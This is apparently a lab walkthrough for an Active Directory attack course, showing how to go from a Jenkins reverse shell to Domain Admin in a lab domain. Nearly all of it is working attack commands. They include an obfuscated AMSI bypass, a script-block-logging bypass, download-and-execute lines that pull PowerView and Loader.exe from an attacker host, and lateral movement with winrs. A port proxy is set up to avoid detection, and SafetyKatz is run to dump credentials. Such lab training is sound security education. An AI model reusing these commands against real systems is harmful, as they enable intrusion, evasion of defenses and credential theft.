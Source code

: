# LO 7

Identify a machine in the target domain where a Domain Admin session is available.

Compromise the machine and escalate privileges to Domain Admin

* Using access to dcorp-ci
* Using derivative local admin

We got a reverse shell on dcorp-ci as ciadmin by abusing Jenkins.

First bypass Enhanced Script Block Logging so that the AMSI bypass is not logged.&#x20;

The below command bypasses Enhanced Script Block Logging:

<pre class="language-powershell"><code class="lang-powershell">c:\AD\Tools\hfs.exe C:\AD\Tools\sbloggingbypass.txt
<strong>iex (iwr http://172.16.100.x/sbloggingbypass.txt -UseBasicParsing)
</strong></code></pre>

Use the below command to bypass AMSI:

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Now, download and execute **PowerView** in memory of the reverse shell and run **FindDomainUserLocation**. Note that, Find-DomainUserLocation may take many minutes to check all the machines in the domain:

```powershell
c:\AD\Tools\hfs.exe C:\AD\Tools\PowerView.ps1
iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/PowerView.ps1'))
Find-DomainUserLocation

<# Output example:
UserDomain : dcorp
UserName : svcadmin
ComputerName : dcorp-mgmt.dollarcorp.moneycorp.local
IPAddress : 172.16.4.44
SessionFrom :
SessionFromName :
LocalAdmin :
[snip]#>
```

There is a domain admin session on dcorp-mgmt server.

Check if we can execute commands on dcorp-mgmt server and if the **winrm** port is open:

<pre><code><strong>winrs -r:dcorp-mgmt set computername;set username
</strong></code></pre>

We would now run **SafetyKatz.exe** on dcorp-mgmt to extract credentials from it. For that, we need to copy Loader.exe on dcorp-mgmt. Let's download **Loader.exe** on dcorp-ci and copy it from there to dcorp-mgmt. This is to avoid any downloading activity on dcorp-mgmt.

Run the following command on the reverse shell:

```
c:\AD\Tools\hfs.exe C:\ad\Tools\Loader.exe
iwr http://172.16.100.x/Loader.exe -OutFile C:\Users\Public\Loader.exe
```

Now, copy the Loader.exe to dcorp-mgmt:

```
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```

Using winrs, add the following port forwarding on dcorp-mgmt to avoid detection on dcorp-mgmt:

```
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x"
```

Load and execute SafetyKatz on dcorp-mgmt:

```
$null | winrs -r:dcorp-mgmtC:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```

